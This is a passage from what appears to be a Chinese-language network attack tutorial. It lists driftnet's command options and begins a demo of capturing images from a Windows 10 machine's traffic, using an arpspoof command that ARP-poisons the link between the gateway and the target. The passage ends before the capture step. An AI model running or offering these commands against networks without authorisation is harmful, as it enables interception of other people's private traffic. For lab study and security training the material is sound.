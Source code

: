 ### 3.3.2. 工具语法

```
driftnet [options] [filter code]
-b	捕获到新的图片时发出嘟嘟声
-i	interface 选择监听接口
-f	file 读取一个指定pcap数据包中的图片
-p	不让所监听的接口使用混杂模式
-a	后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
-m	number 指定保存图片数的数目
-d	directory 指定保存图片的路径
-x	prefix 指定保存图片的前缀名
```

### 3.3.3. 开启演示

这里我们来获取Windows 10上的图片，看看是否能够获取到。

#### 3.3.3.1. 开启数据转发

这里同样进行数据转发。

```
arpspoof -i eth0 -t 192.168.2.1(网关IP) 192.168.2.20(目标IP) 
```

![image-20230812192737732](assets/image-20230812192737732.png)

#### 3.3.3.2. 开启捕捉图片
